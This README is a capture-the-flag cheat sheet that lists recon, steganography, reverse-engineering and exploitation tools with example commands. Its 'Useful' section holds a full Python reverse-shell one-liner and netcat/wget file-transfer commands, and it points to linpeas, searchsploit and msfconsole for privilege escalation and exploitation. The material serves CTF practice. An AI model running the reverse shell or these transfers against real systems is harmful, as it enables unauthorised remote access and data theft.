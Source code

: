 # CTF-tools
Collection of useful tools for CTFs.


## Categories
  - [Web](#web)
  - [Crypto](#crypto)
  - [Steganography](#Steganography)
  - [Binary/Reverse](#binary/reverse)
  - [Other](#other)
  - [Useful](#useful)
  - [to update]

---

## Web

* nmap
```
Example usage : sudo nmap -sS -A -T4 <ip_target> -oN <name_output> -vv
```
* gobuster
```
Example usage for directory/file enum :
                gobuster dir -u <ip_target> --wordlist <path_to_wordlist> -x <extensions>
  where:  * path_to_wordlist can be something like "/usr/share/wordlists/<wordlist>"
          * extensions like php, txt, js, cgi, sh, ...
```
* dirb
* curl
* nikto
```
Example usage: nikto -h <ip_target>
```
* wpscan
* wget 
```
Example usage: wget <url>
```
* golismero
```
Example usage:
golismero scan -i /root/port80.xml -o sub1-port80.html
```
* Burpsuite
---

## Crypto

* [CyberChef](https://gchq.github.io/CyberChef/)

---

## Steganography

* steghide
```
Example usage: steghide <command> <file>
  where command can be:   > info
                          > extract 
                          > embed 
```
* [Stegosolve](http://www.caesum.com/handbook/Stegsolve.jar)
* exif
* exiftool
* binwalk

---

## Binary/Reverse

* checksec
* strings
* ltrace
* strace
* frida
* gdb / gdb-peda
* hexdump (-C option very useful)
* objdump
* apktool
* Jadx -- Java decompiler 

---

## Other

* nc -- TCP/IP swiss army knife
* linpeas.sh -- for Linux Privesc
* sudo -l -- to get which files I can run with sudo
* searchsploit -- search through Exploit db archive
```
Example usage: searchsploit OpenSSH 7.2p2
               searchsploit -p 46635  -- it returns the URL of the CVE in exploit db
```
* msfconsole -- the god tool for exploitation


---



## Useful

* sending a file using nc:
```
    client side : nc -lvp <port> > <file>
    server side : nc <ip_server> <port_server> < <file>
```
* sending a file using nc + wget:
```
    client side : nc -lvp <port> < <file>
    server side : wget <ip_server>:<port_server>/<file>

!! [NOTE: protocol will continue after transmission of file (maybe because client side does not receive CRLF sequence). So after a while, just press CTRL+c et voit-là] 
```
* to convert a python script from v.2 to v.3
```
    python3 -m lib2to3 <script>.py -w
```
* connect to server pop3 (port 110) using telnet:
```
    telnet <ip> 110
```
* reverse shell with one line only, using python3:
```
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* run a simple python3 server:
```
    python -m http.server
```
* create a generic ssl/tls client which establishes a connection to a remote server speaking ssl/tls.
```
Example:    openssl s_client -connect <ip_address>:<port>
    If all it is ok, paste the password and it’s done.
```
* append to a file data: 
```
Example usage: printf "<data>" |cat - <file> > <file_out>
    where data is something like "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00"
```
* [PEM Parser](https://8gwifi.org/PemParserFunctions.jsp)

---




# Contributors

- Francesco Varotto - [@frarotto](https://github.com/francevarotz98/)
- Massimiliano Belluomini - [@massibelluomini](https://github.com/massibelluomini)
- Filippo Giambartolomei - [@filippogiamba](https://github.com/Filippo-arch)
